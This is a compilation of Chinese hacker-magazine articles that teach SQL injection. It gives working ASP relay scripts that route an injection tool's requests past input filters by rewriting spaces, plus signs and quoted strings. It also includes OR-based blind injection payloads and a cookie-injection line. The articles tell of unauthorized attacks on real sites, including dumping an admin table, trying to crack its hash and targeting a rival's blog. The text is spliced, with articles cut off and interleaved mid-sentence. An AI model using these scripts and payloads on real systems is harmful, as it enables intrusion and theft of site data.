什么是 XMLHTTP 呢？MSDN 的解释是：XmlHttp 提供客户端 http 服务器通讯的协议。客户端可以通过 XmlHttp 对象(MSXML2.XMLHTTP.3.0)向 http 服务器发送请求并使用微软 XML 文档对象模型 MicrosoftXML Document Object Model (DOM)处理回应。

XMLHTTP 的方法及属性不是太多，详细的资料请各位到百度中查阅，这里简单介绍几个我下面将会用到的方法及属性：

- 1、OPEN：创建一个新的 http 请求，语句格式是：HTTP.Open("POST" 或 "GET", "URL 地址", False)
- 2、SEND：发送请求到 http 服务器并接收回应，语句格式是：HTTP.Send("发送的数据")
- 3、setRequestHeader：单独指定请求的某个 http 头，语句格式是：HTTP.setRequestHeader("http 头名称", "字符串值")
- 4、responseBody：从服务器返回未经解码的二进制数据。

参照网络中牛人们的代码，经过自己的一番整理，终于写出了一个可以实现数据转发的 jmdcw.asp 脚本，完整的代码如下：

```
asp
<%
JmdcwName=request("jmdcw") '接收 NBSI 提交来的注入语句

'//以下是需要更改的项目,根据抓取的目标网站数据进行修改:
JmStr="提交项 1=****&提交项 2=****&注入点="&JmdcwName
'POST 提交值，最后一个为注入点。
JMUrl="http://127.0.0.1/目录/注入页.asp" '存在注入点的页面，如果该页在提交时，还有 GET 提交，按下面一行进行设置。
'JMUrl="http://127.0.0.1/目录/注入页.asp?Get 提交 1=值 1&Get 提交 2=值 2"
JmRef="http://127.0.0.1/****.asp" '来源页，有些程序要验证此项
JmCok="ASPSESSIONID AQACTAQB=HKFHJOPDOMA IKGMPGBJJDKLJ" 'Cookies 值(需登陆才能实现注入的需填)。

'//以下代码是对 NBSI 提交的值及 Cookies 值进行过滤。
JmCok=replace(JmCok,chr(32),"%20") '过滤 Cookies 中的空格为%20
JmStr=URLEncoding(JmStr) '对提交的参数进行过滤

'//以下代码是执行 HTTP 提交，并返回结果。
response.write PostData(JMUrl,JmStr,JmCok,JmRef)

'………………详细代码请见光盘
%>
```

下面就来给大家演示一下，首先将上面的代码保存到本地的 IIS 根目录中（或自己的 ASP 空间中），名字为“jmdcw.asp”。因为好长时间不看代码了，想找一个现成的表单注入点还真不容易，于是翻箱倒柜找呀找，发现在 2005 年找到的“6KBBS 美化版”的银行插件中的注入点很适合，就用它吧！先温习一下其 BUG 语句：sql2="select save,userid from [user] where"



图 1



图 2



图 3

name='"&request.form("dxname")&"'",瞧，request.form——典型的 POST 接收。OK，开工。先注册一个用户 jmdcw，在登录时，将“Cookies 选项”选择为“保存一天”，然后来到“娱乐中心”下的“社区银行”，如图1所示，能够实现注入的地点就在“我要转账”表单上。为了测试，我提前将自己账户中的存款改成了 10000 元（要是现实中能这样改，那就幸福啦）。找到了漏洞所在地，如何判断注入是否成功呢？转载一下以前的经验，如果转账给存在的用户（存在的用户 'and'1'='1'）就会弹出一个成功的窗口，其中的内容是：“恭喜！转账成功，系统已自动发信通知了您的朋友”。如果转给的用户不存在（存在的用户 'and'1'='2'），出现的则是一个错误的页面。根据这两个页面的信息，在 2005 年，偶手动猜解了 N 个网站管理员的 MD5 值，现在想想，感觉天都是灰色的！

在前面列出的 ASP 脚本中，最上面有一段需要修改的数据，这段数据是从哪儿获得呢？嘿嘿，大幕就要拉开了。启动 WSockExpert，选择 IEXPLORE.EXE 中的 6kbbs 美化版页面，然后在转账额中输入 1（每次最低转账额度是 1 元），在转向的框内输入“刺猬”，点“转账”，抓到了如下数据：

```
POST /6kbbs/bank.asp?menu=virement HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/msword, */*
Referer: http://127.0.0.1/6kbbs/bank.asp
```

```
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: 127.0.0.1
Content-Length: 46
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASPSESSIONIDCASABQSA=LNHBCGCANBKPNH LFLMNBMAGB; ..数据太多，省略。

qmoney=1&dxname=%B4%CC%E2%AC&B1=+%D7%AA%D5%CA+
```

根据上面的数据，修改后的目标网站数据如下：

```
JmStr="qmoney=1&dxname="&JmdcwName '只截取 %B4%CC%E2%AC (刺猬) 前的数据
JmUrl="http://127.0.0.1/6kbbs/bank.asp?menu=virement"
JmRef="http://127.0.0.1/6kbbs/bank.asp"
JmCok="ASPSESSIONIDCASABQSA=LNHBCGCAN BKPNH LFLMNBMAGB; ........抓到的 Cookies 数据"
```

激动人心的时刻就要来临了，启动 NBSI，在“注入地址”中输入：“http://127.0.0.1/jmdcw.asp?jmdcw=刺猬”，点“检测”，返回的是“未检测到注入漏洞”，失败了？NO！我们还需要输入转账成功时的提示消息作为“特征字符”，输入“转账成功”作为关键字，点击“再检测”，出现的结果却是“注入破解失败”，WHY？在多次测试后我才找出了原因，虽然用 XMLHTTP 提交的数据中包含了当前用户的 Cookies，但通过 WSockExpert 抓包所得到的结果却是用户没有登录，其实不用 WSockExpert 抓包，只需在 IE 的地址栏中输入：http://127.0.0.1/jmdcw.asp?jmdcw=刺猬，就能看到 XMLHTTP 所返回的结果，如图 2 所示，正确的页面应该是弹出一个成功提示，而这里，很显然，用户没有登录成功。到底什么原因？导致了在 IE 中保存的 Cookies 在 XMLHTTP 中却不能发挥效力呢？（对这个原因，我甚是不解！文章完成后的一天用百度搜索时，无意中来到了“Ayi's Blog”中，找到了解决的办法，很简单，就是将脚本中的“msxml2.XMLHTTP”更改为“msxml2.serverXMLHTTP”，偶更改脚本后，重新测试了一下，嘿嘿，问题解决！）。

如果用 XMLHTTP 提交登录信息，是不是就可以了呢？用 WSockExpert 重新抓取用户登录页，根据抓取到的信息在 IIS 根目录下创建了一个“cw.asp”，内容如下：

```
<%
StrPost="lgname=jmdcw&lgpwd=********&cook=30&comeurl=&lgtype=1" '用户登录时的 POST 值
Set Http = Server.CreateObject("msxml2.XMLHTTP")
Http.Open "POST","http://127.0.0.1/6kbbs/login.asp?action=login",False '用户登录 URL
Http.SetRequestHeader "Content-Type","application/x-www-form-urlencoded"
Http.Send strpost
if Http.readystate=4 then response.write "登录成功"
%>
```

在 IE 中执行 http://127.0.0.1/cw.asp，显示“登录成功”后，切换窗口至 NBSI 程序，再点“再检测”，如图 3 所示，成功检测出注入点，看来前面出现“注入破解失败”的原因就是因为 XMLHTTP 认为用户没有登录。接下来，只需再点几下鼠标，数据库中的相关信息就到手了，如图 4 所示。

通过上面的演示，是不是发现 NBSI 的注入范围一下子宽了很多，这样，当我们在白箱测试中发现的“request.form(" 参数")”注入点，或用黑箱探测到某个表单（比如登录框、搜索框等）

# 调包记

寂寞的刺猬 [L.S.T]

- 本文中你可以学到：
- 手动注入变为工具注入的一个方法

随着注入工具的傻瓜化，网站管理员们也采取了相应的措施。有的加入通用防注入程序，有的则过滤掉一些危险字符，这不，前两天我就碰到了这样一个网站，最初测试时，发现该网站过滤了空格，对于空格的突破，我们可以采取 /**/、TAB 空格，以及偶曾介绍的括号来代替。但是当我用注入工具对该注入点探测时，无论是阿D还是NBSI或是HDSI都是一个回答，没有发现注入点，WHY？就是因为空格的缘故（也可能是其他一些字符），貌似只能手动注入了，但如果用手动的方式将该网站内的数据全部猜出，那可是一个很漫长的过程！大过年的，我可不想把时间全耗在这上面！

如何快捷的拿到数据，让注入成为一种乐趣呢？我想到了两种方法：ONE、写一个注入程序，但动手后我才发现不用点时间还真写不出（*^_^* 偶好久没写过程序了），这个方法还是 PASS 吧。TWO、找一个数据包转发工具，将注入工具所提交的数据包进行修改后再提交，这样不就可以将被过滤的空格改为 /**/ 了吗？说到数据包转发，我忽然想起曾在《黑客手册》中看到过一篇此方面的文章，一番查找后，在 2006 年 3 期中，找到了 LT 的《在挫折中进步，记一次真实的入侵过程》，在该文中，作者用其

写的一段 PHP 代码对注入工具提交的数据进行过滤、修改。在翻阅资料时，发现《黑客手册》2005 年 11 月刊中 Linx 的文章《再谈 SQL Injection 填字游戏》中所用到的数据转发 PHP 脚本和 LT 的代码长的很像，莫非 LT 就是 Linx（小编证实：好像是）？就像刺猬和逝一样。哇！跑题了！分析完 LT 的代码，我决定写一段 ASP 脚本的数据转发代码，一则是 WINXP 中默认的 IIS 就支持 ASP，二则大家手上或多或少都有几个 ASP 网站的 WEBSHELL。这样，将该 ASP 文件放在本地的 IIS 目录中或是某个 ASP 网站内，就可以实现数据转发了。虽然都是数据转发，但我的目的和 LT 不同，他是为了让数据提交方式由 GET 变为 POST，而我则是为了修改注入工具发送数据包中的内容，OK，大致的构思如下：

```
jmdcw.asp 文件代码:

<%
dim ipurl
dim req
req=request("jmdcw") '接收注入工具所提交的数据包
req=replace(req," ","/**/") '将空格过滤为/**/
ipurl="http://www.****.com/product.asp?productid=" '存在注入的 URL 地址
ipurl=ipurl&req '合并数据
response.redirect ipurl '访问处理后的 URL。
%>
```



jmdcw.asp 就是一个中转站，将注入工具提交来的注入代码进行过滤，然后再提交给指定页面，简单的说就是“调包”，哈哈！OK，试一下火力，在 NBSI 的注入地址中填入：http://127.0.0.1/jmdcw.asp?jmdcw=1（注，如果是 jmdcw.asp 放在了某个网站上，比如 www.pc010.cn，那么此处的地址就是 http://www.pc010.cn/jmdcw.asp?jmdcw=1，其中的 1 是注入点的参数）。但结果却是“未检测到注入漏洞”，如图 1，怎么回事？难道提交的数据没有修改成功？重启（Reload）NBSI，用 WsockExpert 抓取到 NBSI3.0 再次注入的数据，如图 2（此图是 A 和 B 的拼合图），在这其中发现了一些端倪，以 A 和 B 来表示。

- A、注入工具提交给 jmdcw.asp 的数据是： GET /jmdcw.asp?jmdcw=1%20and%20user%2Bchar(124)=0
- B、jmdcw.asp 提交给 product.asp 的数据是： GET /product.asp?productid=1/**/and/**/user+char(124)=0



中的注入点，在采取手动注入之前，不妨试一下数据转发。写到这儿，我忽然想起了 Cookies 注入，如果 NBSI 提交的是 Cookies 中的注入变量，那么将脚本中 JmdcwName 所接收到的值连到 JmCok 变量后，再将数据进行一下转换，不就把 Cookies 注入改成 Get 注入了？可惜自己的窝中没有这方面的稻草，还是留给各位朋友测试吧！

> [文章里的脚本代码 jmdcw.asp 和 login.asp 已收录在本期光盘]
编辑点评：文章中的这一作法，将数据用 xmlhttp 转发后再注入，这一方法除了能隐藏自己注入的 IP 外，还可以根据作者写的代码，来作替换，像把空格换成 /**/、注入语句变为 16 进制等，这样用 NBSI 跑不出的注入点就可以跑出来了，避免手动了。作者为此还写了一个相关工具，http://www.defence80.com/zhu.rar，工具能够把 cookie 注入转为 get 或 post 注入。这个工具我只看了一下，我个人很难找到有防注入代码并且 cookies 注入又能得逞的网站来测试这个程序的实际效果。



不难看出，A 中的 %20 已成功过滤为 /**/，但 %2B 却变成了 +，难道问题出在“+”上？我试着将 product.asp?productid=1/**/and/**/user+char(124)=0 放在 http://www.****.com/ 后手动提交了一次，结果如图 3：'userchar' 不## 图 3

# 图 4

是可以识别的函数名。呵呵，看来不仅过滤了空格，还将字符 + 过滤为空，如果将 + 改为 %2B 呢？将 URL 中的 + 更改后，测试的结果如图 4，“将 nvarchar 值 'dbo' 转换为数据类型为 int 的列时发生语法错误”。

# 图 5

呵呵，找到解决方法了，在上面代码的过滤部分处加入这一句：req=replace(req, "+", "%2B")，将提交字符中的 + 过滤为 %2B。再次重启（Reload）NBSI 检测，也就是十多秒的时间，就检测出了这个网站的基本信息，如图 5，用户权限竟然是 SA，正当我准备欢呼的时候，却发现“多句支持”处为“否”！MY GOD，这个管理员也太不够意思了吧！单语句能做什么，除了暴数据，我绞尽了脑汁也没想出更好的用途，算了，就先暴一下数据吧！点 NBSI 的“猜解表名”，很顺利地得到了该库中所有的表名，如图 6，嘿嘿，这么多表呀！

# 图 6

从字面上看，bbsadmin、member、service、member、admin 这些表应该属于重量级的，那就从 admin 表入手，看能不能找到一些弱口令！结果在猜解列名时出现了错误提示，如图 7，看来还得用 WSoCKExpert 抓包，在出现错误提示前发现 WSoCKExpert 只抓到了两条 GET 语句，分别是：

- A、GET /jmdcw.asp?jmdcw=1%20And%20(Select%20Top%201%20cast(id%20as%20nvarchar(20))%2Bchar(124)%20from%20[*****base].[dbo].[sysobjects]%20where%20name='Admin')>0
- B、GET /product.asp?productid=1/**/And/**/(Select/**/Top/**/1/**/cast(id/**/as/**/nvarchar(20))%2Bchar(124)/**/from/**/[*****base].[dbo].[sysobjects]/**/where/**/name='Admin')>0

# 图 7

在 A 和 B 中，都有一个很特殊的字符——单引号，按照网站过滤的规律，既然空格、加号都难逃一劫，那么单引号恐怕也属于黑名单之列，将代码 B 复制到 IE 中进行测试，果不出所料。那么怎样绕过单引号呢？对于赋值形式的单引号，绕过去的方法一般是采用 16 进制的字符，比如上面的 Admin，换成 16 进制就是 0X410064006D0069006E00，这样一来，在 jmdcw.asp 接到提交的数据后，除了将空格及加号进行过滤外，还要对其中的单引号进行过滤，经过一番搜索，找到了一段 16 进制转换代码，略做修改，完整的 ASP 数据转发脚本代码如下：

```asp
<%
dim ipurl
dim req
dim inwL
dim inwR
req=request("jmdcw")
req=replace(req, " ", "/**/")
req=replace(req, "+", "%2B")
inwL=instr(req, "'") '从左边计算单引号的位置
inwR=instrrev(req, "'") '从右边计算单引号的位置
if inwL>0 and inwR>0 then
req=left(req, inwL-1) & byte2hex(mid(req, inwL+1, (inwR-inwL-1))) & right(req, len(req)-inwR)
end if
ipurl="http://www.****.com/product.asp?productid="
ipurl=ipurl&req
response.redirect ipurl

function byte2hex(str) '16 进制转换代码
dim ilen
dim i
dim s
dim hs
ilen = len(str)
for i=1 to ilen
s = hex(asc(mid(str, i, 1)))
if len(s)=1 then
hs =hs& "0"& s &"00"
else
hs = hs& s &"00"
end if
next
byte2hex = "0X"&hs
end function
%>
```

# 图 8

接下来再次点击“猜解列名”，如图 8，得到了 Admin 表中的列名，接下来就是猜解 ID、UserName 和 Password 了，很不幸的是，这个里面只有一个管理员，并且得到的密码竟然是 MD5，去了几个大型的 MD5 破解站，也没有找出来，用工具破解了半个多小时也没有找出来，算了，就不再深入了，有机会的话再暴一下他的表，至于能否达到管理员权限那并不是目的，快乐的过程才值得记忆！

> [文章中的代码 jmdcw.asp 已收录到本期光盘]

**编辑点评**：这篇文章与上一篇《拓宽 NBSI 的注入范围》有点类似，算是那篇文章的子集了，不过这篇文章没有用到 xmlhttp 组件。这篇文章给出了如何修改“中转站的代码”的方法，如果精懂 ASP 的读者就会应用这个方法改造上篇文章里的代码了。在被注入的网站里过滤了一些特殊字符的话，这篇文章给出了如何躲避过滤字符继续用工具注入的方法。

# 假作真时真亦假 or 注入教程
落叶纷飞

**从本文中你可以学到：**
or 注入的基本语句

记得一年前火狐有一位朋友问，如果一个网站过滤了 and 和“!”的话，该怎么注入啊？当时我随口说了句“or 注入”，后来又一次看贴的时候，看到 he 问我该怎么利用呢？我就写了几个简单的语句给他，叫他自己变换，他很感激我，还说网上没有这种方法。我到网上查了查，还真没有 or 注入专题呢（“or”=“=”除外），呵呵，所以，一年后的今天，有了这篇文章。

我们用雷霆购物系统做 or 注入演示。我们先用 or 1=1 和 or 1=2 来测试是否存在注入点，我们先来看正常页面的面貌，如图 1。我们现在用 or 1=1 测试是否存在注入漏洞，如图 2。返回的是另外一个页面，我们再来测试 or 1=2，如图 3。返回的是正常的页面，说明猜测正确的时候是错误，猜测错误的时候是正常，这就是真正的“假是真时真亦假”，比 lake2 大哥哥的 IP 欺骗更经典哦，呵呵。

我们来构造测试语句：vpro.asp?id=1 or exists(select * from admin)，返回错误页面，说明存在 admin 表，我们来换一个表试试！vpro.asp?id=1 or exists(select * from n0h4ck)，如图 4，说明不存在 n0h4ck 这个表。哦？有朋友应该要问了，为什么不返回 or 1=2 时的正常页面呢？这个问题嘛，我也不知道，呵呵，不过我知道一个定理，就是只要返回的页面不是 or 1=1 的页面，就表示猜测表示错误的（我把它称之为“邓哥定律”，呵呵）。我们继续来，构造语句 vpro.asp?id=1 or exists(select admin from admin)，返回 or 1=1 的页面，说明 admin 表存在在 admin 字段。vpro.asp?id=1 or exists(select padd from admin)，返回 or 1=2 的页面，说明 admin 表不存在 padd 字段。

我们现在开始猜测数据了，vpro.asp?id=1 or (select mid(admin,1,1) from admin)='n' 返回 or 1=2 的页面，说明 admin 表 admin 字段的第一个数据的第一个字符不是“n”，我们再来

vpro.asp?id=1 or (select mid(admin,1,1) from admin)='a' 返回 or 1=1 的页面，说明说明 admin 表 admin 字段的第一个数据的第一个字符是“a”，我们第一个会想到什么呢？当然是“admin”啦，我们用 left 函数确定一下，vpro.asp?id=1 or (select left(admin,5) from admin)='admin' 猜测正确，的确是 admin，好了，后面的话就不用我说了吧！具体可以看我的动画。

最后来说几句，这个方法是当时研究突破“通用防注系统”时想到的，但是没测试成功，呵呵。就到这里了，我们 7 月再见吧。我考上了重点高中，会再回来给大家写文章的。大家快祈祷我考上重点吧。如果大家还有什么问题请到 nohack 论坛找我。

> [文章中作者提到的动画已收录在本期光盘]

**编辑点评：**黑客的年龄真是越来越小龄化了，初中生都这样牛了，哎，我老了。不过用 or 1=1 和 or 1=2 来猜测并不是通用的，这是肯定的。如果一个语句是 select * from admin where id=1 or 1=1 或 select * from admin where id=1 or 1=2，返回的都是正常信息，用 and 1=1 和 1=2 就不是了。

# 注入屠城
——从荆棘满都城到满城尽带黄金甲
落叶纷飞

**从本文中你可以学到：**
黑箱注入的情况下，在蛛丝马迹中试探、归纳、整理，然后寻找突破的一个思路。

## 一、无奈中寻找突破

今天在喜欢的一个女孩子的 QQ 签名上看到了一个 blog 地址，她说这个 blog 是和一个朋友合作搞的。我出于好奇，也去看

看吧。blog 做得不错，人气也很高，网页皮肤也挺不错的，但在最下面的 banner 上看到了一句“XXX 安全检测版，两位 MM 不用怕被人入侵哦。”哼，那不是我的情敌吗？怎么叫他来安检了，我一定要黑了这个 blog。由于写此文的时候是在学校机房，没能给大家抓图，希望不要见怪，也当是给大家提供入侵思路吧。

先找了几个地址，加上了 and 1=1、and 1=2，全部返回了一句嚣张的话“注入？你认为有可能吗？我可是重点中学的电脑天才哦！”，这下可把我气坏了，注入不了？我就是要注入！在数字型变量的地址中加上“bloglist.asp?id=(44)aa”，返回的页面不同于正常的页面，我断定应该是用了他自己写的防注入程序来过滤，不过也不排除他是改别人防注系统的版权，而不是用 cint 这种 BT 函数进行强制转换的。

呵呵，看来有戏了。因为我以前研究过防注系统，知道一般防注入系统有的是不过滤 or 的。提交“or 1=1”和“or 1=2”，返回的都是刚刚那个消息框，又提交“or/**/1=1”照样返回那个消息框。我不甘心，所以我又提交了“'”、“;”、“/**/”、“+”，发现只有“'”没过滤，但不知道怎么的，提交的特殊字符都返回正常页面（“;”除外），应该是过滤的方法不同吧，看来还是有希望的。我现在的想法是把测试语句变成最 BT 的测试语句，变形后的语句有几条，是“or(1=1)”、“or/**/aa*/1=1”、“or(1<>1)”、“or/*asd*/1<>1”，第一二条语句都被过滤，但第三四条却返回错误了（or 注入里猜测正确时，会返回错误信息！）。用括号比较麻烦，我就用 /*aa*/ 来注入吧！

## 二、突破口上迷雾生

我开始注入了，没有工具来帮手，真的挺困难的，55555，要手注了，累人啊。提交“bloglist.asp?id=44/*aa*/or/*aa*/exists(select * from admin)”，一按 ENTER 后，我就傻眼了，居然弹出了刚刚那个防注的对话框，看来这条语句中又有字符被过滤了，不管这么多，先一段段测试。我提交了“bloglist.asp?id=44/*aa*/exists”、“bloglist.asp?id=44/*aa*/select”等等语句，发现只有 from 没有过滤，晕了，过滤得这么 BT，看来这个重点中学的入对注入也有一项研究呢！

看来没门了，上 Q 和 bole 聊天诉苦，他说了句“哎！人家可是重点初中的学生啊，尽管你能和他纠缠一下，但还是会败在他的脚下的。”咦？“纠缠一下？”对了，以前研究防注系统的时候，有些防注程序会先让你提交的语句执行，当返回的时候才会开始过滤；有的则是让你的语句执行，但它会返回说你提交了不良字符。这样说来，如果他的数据库是 SQL 而且权限比较大的话，那我们不就可以执行 xp_cmdshell 等 SQL 语句了？

telnet 他服务器的 1433 端口，发现根本不存在这个端口，那么只有 3 种可能，一是他的数据库是 Access 的，二是他把数据库连接端口改了，三就是服务器与数据库分离。用 superscan 扫了一下服务器，发现只开了 21 和 80，再扫了服务器的整个网段，发现都没有 1433 端口。看来有很大的可能是 Access 数据库了，哎，思路又断了，突然，有一条思路出现了，记得有些防注系统主要把变量编码一下，就形同虚设了，我就来试试，因为反正是一条思路嘛！提交：`bloglist.asp?%69%64=44/*不知道*/exists`（“%69%64”是 unicode 编码后的变量“id”），提交后返回的信息再次打击了我的心。我不甘心，我真的不甘心。对了，cookies 注入，我快疯了。提交 `javascript:alert(document.cookie="id="+escape("44 or/*aa*/1=1"));`，返回的信息仍然在打击着我的心。

## 三、剑走偏锋仍似剑

月光透过窗子洒进了我的房间，萦绕在我沮丧的脸上。周围的一切似乎都在嘲笑我这个失败的入侵者。我撕开一包 DAVE 牌子的巧克力，无端地在日志搜索框上打上了一个单引号“'”，返回的信息是“请输入你要查找的信息！”。哎，我默默地叹了口气。

